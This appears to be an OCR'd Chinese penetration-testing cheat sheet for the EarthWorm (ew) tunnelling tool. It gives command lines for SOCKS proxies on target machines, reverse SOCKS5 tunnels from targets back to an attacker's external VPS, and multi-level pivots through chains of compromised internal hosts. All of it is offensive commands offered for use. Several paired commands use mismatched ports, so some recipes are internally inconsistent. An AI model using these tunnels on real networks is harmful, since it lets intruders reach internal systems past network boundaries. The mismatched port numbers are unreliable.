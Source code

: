 ![image](img/346.png)
  #### 正向(目标机存在外网IP)：
	>ew –s ssocksd –l 888
	连接sockscap64靶机外网IP+端口888
  #### 反弹socks5(目标机无外网IP)：
	外网攻击机：
	>ew -s rcsocks -l 1008 -e 888
	-l为socks软件连接的端口，-e为目标主机和vps的通信端口。
	靶机:
	>ew -s rssocks -d 外网IP -e 1008 
	sockscap64连接攻击机外网IP+端口1008
  #### 二级环境(A有外网，B内网无外网)：
	靶机B:
	>ew –s ssocksd –l 888
	靶机A:
	>ew –s lcx_tran –l 1080 –f 靶机B –g 888
	Sockscap64连接靶机外网IP+端口 1080
  #### 二级环境(A无外网，B内网无外网)：
	外网攻击机：
	>ew –s lcx_listen –l 10800 –e 888
	靶机B：
	>ew –s ssocksd –l 999
	靶机A:
	>ew -s lcx_slave -d 外网 -e 8888 -f 靶机B -g 9999 
	Sockscap64连接攻击机外网IP+端口 10080
  #### 三级环境(A无外网,B内网无外网通A,C通B)：
	外网攻击机：
	>ew -s rcsocks -l 1008 -e 888
	靶机A：
	>ew -s lcx_slave -d 外网攻击机 -e 888 -f 靶机B -g 999
	靶机B：
	>ew -s lcx_listen -l 999 -e 777
	靶机C:
	>ew -s rssocks -d靶机B -e 777
	Sockscap64连接攻击机外网IP+端口 1008
